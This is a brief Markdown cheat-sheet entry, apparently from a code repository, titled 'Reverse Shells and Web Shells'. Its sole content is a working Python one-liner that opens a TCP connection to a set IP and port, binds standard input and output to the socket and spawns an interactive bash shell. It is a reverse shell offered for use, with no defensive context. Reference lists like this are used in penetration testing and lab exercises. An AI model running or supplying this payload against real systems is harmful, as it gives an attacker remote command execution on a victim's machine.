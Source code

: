 # Reverse Shells and Web Shells

#### Python one liner TCP reverse shell
```python3 -c 'IP="127.0.0.1";PORT=4444;import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((IP,PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'```
